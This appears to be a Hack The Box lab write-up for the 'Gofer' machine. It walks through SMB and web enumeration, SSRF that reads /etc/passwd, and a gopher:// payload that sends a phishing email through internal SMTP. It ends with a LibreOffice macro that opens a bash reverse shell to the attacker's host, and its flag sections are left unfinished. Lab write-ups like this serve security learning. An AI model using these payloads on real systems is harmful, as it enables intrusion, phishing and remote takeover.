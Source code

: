 ## Gofer
[write-up](https://rouvin.gitbook.io/ibreakstuff/writeups/htb-season-2/gofer)
### Reco
- NMAP
    - `nmap -sVC 10.10.11.225`
        ![](https://hackmd.io/_uploads/SkEh6Mdi2.png)
        - 22 SSH
        - 25 filtered SMTP
        - 80 HTTP (redirect gofer.htb)
            - add it to our /etc/hosts
        - 139,445 SAMBA (smbd 4.6.2)
            - clock-skew -2s
            - security-mode 311 (signing enabled but not required)
- Website
    - "We are team of talented designers making websites with **BOOTSTRAP**"
        - BootstrapMade
    - images are stored in /assets/img/portfolio
    - contact form could have some weakness
        ![](https://hackmd.io/_uploads/B1wqpMdih.png)
### Weaponisation
- SMB
    - using nmap we found samba, lets scan it
        - `smbmap -H 10.10.11.225 -u " "`
            ![](https://hackmd.io/_uploads/r1R21Qdjn.png)
            - we have "read only" permissions to disk **SHARES**
    - let´s look inside shares disk
        - `smbclient -N //10.10.11.225/shares`
            ![](https://hackmd.io/_uploads/H1GPe7dsn.png)
    - analyze obtained backedup **email**
        - ![](https://hackmd.io/_uploads/HJCFlXusn.png)
            - email addresses: jdavis@gofer.htb, tbuckley@gofer.htb
            - they are sending important documents internally by mail
                - using .odt format (Libreoffice, not Office Word)
            - there is a proxy
- Dir scan
    - `dirsearch -u http://gofer.htb/`
        - we can access gofer.htb/assets
        ![](https://hackmd.io/_uploads/BJumDXOs2.png)
    - /assets
        - style.css, main.js
            - template Maxim v4.9.1
        - php-email-form/validate.js
            - PHP Email Form Validation v3.5
        ![](https://hackmd.io/_uploads/H1zvwm_oh.png)
- Proxy
    - let´s find the proxy
        - `ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u "http://gofer.htb" -H "Host: FUZZ.gofer.htb" -fw 20`
            - **proxy.gofer.htb** -> add it to /etc/hosts
                ![](https://hackmd.io/_uploads/H13NMXujn.png)
        
### Exploitation
- **SSRF**
    - when accessing proxy.gofer.htb, there is a login pop-up window
        - Lets try the POST request for the index.php 
            - `curl -X POST http://proxy.gofer.htb/index.php`
            ![](https://hackmd.io/_uploads/Sy35nT9sn.png)
                - passed without credentials, but nothing more...
        - there could be a SSRF vuln
            - URL parameter can be specified like this:
                - `curl -X POST http://proxy.gofer.htb/index.php?url=http://<LOCAL_IP>`
            - now we can try /passwd path
                - `curl -X POST http://proxy.gofer.htb/index.php?url=file:///etc/passwd`
            - after a bit of testing and modifying...
                - `curl -X POST http://proxy.gofer.htb/index.php?url=file:/etc/passwd`
- We need to use an .odt format to exploit this, and it appears that this is from the user Jeff Davis from the company site (with a username of jdavis, so we know the username naming convention). 
    - Since we have some kind of SSRF on the proxy service, we might be able to force a user to download and execute a malicious .odt file via macros to get the first shell. However, we first need to find out how to send an email through the proxy to the user since SMTP is not publicly facing. 
    - Based on the box name alone, I sort of figured out that we need to use the gopher:// protocol, which is used to send files to other users. 
- !!! **important knowledge**: [SSRF](https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2?gi=50c9cd56d751) and [Gopherus payload](https://github.com/tarunkant/Gopherus) !!!
- OK: we want to use the **gopher** protocol to craft an ssrf payload based on the information in the email found on smb
    - right path to a foothold is in the obtained email
        - we can use the mentioned Gopherus for creating payload:
- **1. PAYLOAD:** 
    - `curl -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/xHELO%250d%250aMAIL%20FROM%3A%3Ciamanidiot@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%3Ciamanidiot@gofer.htb%3E%250d%250aTo%3A%20%3Cjdavis@gofer.htb%3E%250d%250a%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250a<a+href%3d'http%3a//10.10.14.24/macro.odt>open</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a"`
        - [.odt file HINT](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)
- **2. MACRO:**
    - prepare it by this [guide](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)
                
> Sub Main
> Shell("bash -c 'bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1'")
> End Sub

- **3. HTTP.SERVER && NC:**
    - `nc -nlvp <LOCAL_PORT>`
    - `python3 -m http.server 80` //in the folder containing macro.odt
### User flag
### Root flag
- Linpeas
    -  lim8en1 (option #8)
    -  23+who








